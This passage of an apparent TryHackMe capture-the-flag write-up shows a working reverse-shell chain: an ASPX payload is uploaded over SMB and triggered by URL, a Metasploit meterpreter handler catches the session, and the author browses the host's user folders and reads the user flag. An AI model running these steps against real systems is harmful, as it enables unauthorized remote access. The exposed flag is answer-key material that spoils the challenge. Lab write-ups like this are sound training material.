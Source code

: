Now we have to upload the created file via `SMB` and `activate` it with `curl` or website:

`http://10.10.83.151:49663/nt4wrksv/reverse.aspx`



### Connect via meterpreter

We use the `multihandler` from metasploit and have to change our settings properly:

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.11.111.111
lhost => 10.11.111.111
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.111.111:4444
[*] Meterpreter session 1 opened (10.11.111.111:4444 -> 10.10.83.151:49790) at 2025-02-04 22:11:31 +0100
```
After a minute, we got a connection!!!

Lets grab the `user flag`: 


```bash

meterpreter > ls
Listing: c:\windows\system32\inetsrv
# meterpreter > cd c:/users
meterpreter > dir
Listing: c:\users

Mode              Size  Type  Last modified              Name

---

040777/rwxrwxrwx  8192  dir   2020-07-25 17:05:52 +0200  .NET v4.5
040777/rwxrwxrwx  8192  dir   2020-07-25 17:05:49 +0200  .NET v4.5 Classic
040777/rwxrwxrwx  8192  dir   2020-07-25 19:30:12 +0200  Administrator
040777/rwxrwxrwx  0     dir   2016-07-16 15:34:35 +0200  All Users
040777/rwxrwxrwx  0     dir   2020-07-25 23:03:44 +0200  Bob
040555/r-xr-xr-x  0     dir   2020-07-25 19:55:45 +0200  Default
040777/rwxrwxrwx  0     dir   2016-07-16 15:34:35 +0200  Default User
040555/r-xr-xr-x  0     dir   2020-07-25 16:58:09 +0200  Public
100666/rw-rw-rw-  174   fil   2016-07-16 15:21:29 +0200  desktop.ini

# meterpreter > cd bob/desktop/
meterpreter > ls
Listing: c:\users\bob\desktop

Mode              Size  Type  Last modified              Name

---

100666/rw-rw-rw-  35    fil   2020-07-25 17:24:43 +0200  user.txt

meterpreter > cat user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
